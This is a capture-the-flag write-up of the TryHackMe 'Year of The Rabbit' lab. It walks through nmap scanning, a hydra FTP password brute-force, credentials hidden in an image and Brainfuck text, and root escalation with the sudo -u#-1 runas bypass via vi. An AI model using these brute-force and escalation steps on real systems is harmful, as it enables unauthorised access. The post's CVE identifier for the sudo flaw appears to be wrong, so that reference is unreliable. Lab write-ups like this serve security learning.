




# Year of The Rabbit

To be honest, I found [this room](https://tryhackme.com/room/yearoftherabbit) one of the most challenging beginner level rooms on TryHackMe. All you need to do is just find the user and root flags but to get them is a really tricky task. I won't say it was difficult but there were definitely a lot things that I didn't know such as analyzing URL redirection and determing unknown ciphers. Also, this room not only involved vertical but as well as horizontal escalation. 

So, let's begin!

### Initial Foothold

To begin with, we can start a nmap scan against the IP address we get once we deploy the machine. Meanwhile, we can check the IP address on the browser to see if can find some content over there. 


And we get the default Apache page. Also, we don't find anything useful in it's source-code. Moving to the nmap scan results:

```
┌─[tester@parrot-virtual]─[~]
└──╼ $nmap -A 10.10.151.101
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 06:19 IST
Nmap scan report for 10.10.151.101
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.70 seconds
```

Here, we can see that port FTP is open but anonymous login is not enabled so we'd need FTP credentials to access it. Along with that we can see port 22 and 80 are also open. The next thing that we can do is run a diretory bruteforce attack.

```

```

Here, we can see a directory named `assets` has been detected. We can check if there is some userful information over there.



And we can see that there are two files present in this directory, one is a ".mp4" video and the other one is a ".css" file. We can first go and check the ".css" file as this appears to be a bit odd place for storing such a file. 


And to no surprise we do find a hint towards a hidden page on the website.  But when we try to access that page we get a pop-up:


Once we click ok, it redirects us to YouTube. So, we can try to turn off the JavaScript (using add-ons like NoScript) and see what happens. 



So, once JavaScript is blocked it brings us to this page and we can see that it says above that there is a hint in the video. So, we can listen to the song and see if we can get something out of it.

But this appears to be a rabbit hole as at 56 seconds we can hear someone saying:

```
“I’ll put you out of your misery **burp** you’re looking in the wrong place”
```

 Now, we have two hints:

1. There is a redirection
2. The person burps

Both these makes us suspicious to use Burpsuite and analyze the redirection. 

With Burpsuite fired up, when we again access the hidden page we can see that there is a redirection from the response code 302. Also, we can see a redirection towards `/intermdiary.php`.


On accessing the `/intermediary.php` webpage it again leads us to the YouTube page. But if we look properly a hidden_directory parameter is being passed as well. We can try to access that path directory and see if it works.


We can see that there is an image file in the directory and nothing else. So, we can download it and analyze it further. As this is a ".png" file hiding data through steganography won't be possible. Hence, we can run `binwalk` over the image.

```
┌─[tester@parrot-virtual]─[~/Downloads]
└──╼ $binwalk Hot_Babe.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 512 x 512, 8-bit/color RGB, non-interlaced
54            0x36            Zlib compressed data, best compression
```

But we don't find anything useful as there are only part which both constitute to the PNG image. So, we need to think of some other way to get the data from the image. We can try to use `strings` and see if there are some string values in the file. 


From the `strings` output we get the username of an FTP user and also a list of passwords. So, we can copy this list of passwords in a file and pass it to hydra along with the username we just found to get the correct password from all these. 

```
┌─[tester@parrot-virtual]─[~/Downloads]
└──╼ $hydra -l ******* -P pwd <machine_ip> ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 07:34:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 74 login tries (l:1/p:74), ~5 tries per task
[DATA] attacking ftp://10.10.245.21:21/
[21][ftp] host: 10.10.245.21   login: *******   password: **************
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 07:34:24
```

Now, we have the username and password for FTP. So, we can explore the FTP directory and download any files present there.

```
┌─[tester@parrot-virtual]─[~/Downloads]
└──╼ $ftp 10.10.245.21
Connected to 10.10.245.21.
220 (vsFTPd 3.0.2)
Name (10.10.245.21:tester): *******
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> mget Eli's_Creds.txt
mget Eli's_Creds.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00 secs (7.5301 MB/s)
ftp> exit
221 Goodbye.
```

So, we downloaded one file named `Eli's_Creds.txt` but the content of this file is really odd.



This appears to be some sort of encoding but what I did not have any idea. I saw this type of encoding for the first time in my life. 

To decode this, we can go to google and search for encodings that use dashes, arrows, plus signs, square breaces. But we won't find any satisfying results. The next thing that we can do is copy some part of this and search it with google. This would immediately lead us to a new term called `Brainfuck` and actually this encoding does fuck your brain. There is even a wikipedia article on this. We can then search for `Brainfuck decoder` and then use it to decode the this data. I used [this](https://www.splitbrain.org/_static/ook/) tool, to decode the data.

From the decoded data we get:

```
User: eli
Password: **************
```

Now we have eli's username and password. So, we can try to SSH into her account.

```
┌─[tester@parrot-virtual]─[~/Downloads]
└──╼ $ssh eli@10.10.245.21
The authenticity of host '10.10.245.21 (10.10.245.21)' can't be established.
ECDSA key fingerprint is SHA256:ISBm3muLdVA/w4A1cm7QOQQOCSMRlPdDp/x8CNpbJc8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.245.21' (ECDSA) to the list of known hosts.


1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE


eli@year-of-the-rabbit:~$ 
```

As soon as we login in, this banner is displayed to us which is actually a message from root to Gwendoline which talks about some secret hiding place. So, we can run a `find` command and check if there is actually some file.

```
eli@year-of-the-rabbit:~$ find / -name s3cr3t 2> /dev/null
/usr/games/s3cr3t
eli@year-of-the-rabbit:~$ cd /usr/games/s3cr3t/
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just **************
Honestly!

Yours sincerely
   -Root
eli@year-of-the-rabbit:/usr/games/s3cr3t$ 
```

Now that we have the credentials of user Gwendoline, we can switch the user and access out user flag.

```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/usr/games/s3cr3t$ cd /home/gwendoline/
gwendoline@year-of-the-rabbit:~$ ls -la
total 24
drwxr-xr-x 2 gwendoline gwendoline 4096 Jan 23  2020 .
drwxr-xr-x 4 root       root       4096 Jan 23  2020 ..
lrwxrwxrwx 1 root       root          9 Jan 23  2020 .bash_history -> /dev/null
-rw-r--r-- 1 gwendoline gwendoline  220 Jan 23  2020 .bash_logout
-rw-r--r-- 1 gwendoline gwendoline 3515 Jan 23  2020 .bashrc
-rw-r--r-- 1 gwendoline gwendoline  675 Jan 23  2020 .profile
-r--r----- 1 gwendoline gwendoline   46 Jan 23  2020 user.txt
gwendoline@year-of-the-rabbit:~$ cat user.txt
```

So, our first task to obain the user flag is completed. Now, we need to escalate our privileges to root level to get the root flag.

### Privilege Escalation

We can run the `sudo -l` command to see what commands can the user run with root privileges.

```
gwendoline@year-of-the-rabbit:~$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Now, this `(ALL, !root) NOPASSWD` is actually a vulnerability mentioned in [CVE-2019-4287](https://www.exploit-db.com/exploits/47502). On the same page it has explained how to exploit it. So, following the same instructions we can escalate our privileges over here as well:

```
gwendoline@year-of-the-rabbit:~$sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

This would lead us to `vim` editor and display the user flag as we have passed the user flag file in the command. To get the root flag, we need to execute command from `vim` itself. 



This can be done by first pressing the escape(`Esc`) key, then `:!` and then entering whatever command that needs to be executed which in our case would be `cat /root/root.txt`. Once executed, we get the root flag as well and the room is completed!

## Some Key Points to Take Away

1. Always check odd files present at odd locations.
2. Whenever you find some redirection, analyze it with Burpsuite.
3. PNG images contain two parts which are PNG and zlib data.
4. If steganography or binwalk don't work try to `cat` or `strings` the file.
5. When you find ciphers that you don't understand, copy some part of it and google it.

### Reference Links

1. TryHackMe-Year of The Rabbit: https://tryhackme.com/room/yearoftherabbit
2. Brainfuck Decoder: https://www.splitbrain.org/_static/ook/
3. CVE-2019-4287: https://www.exploit-db.com/exploits/47502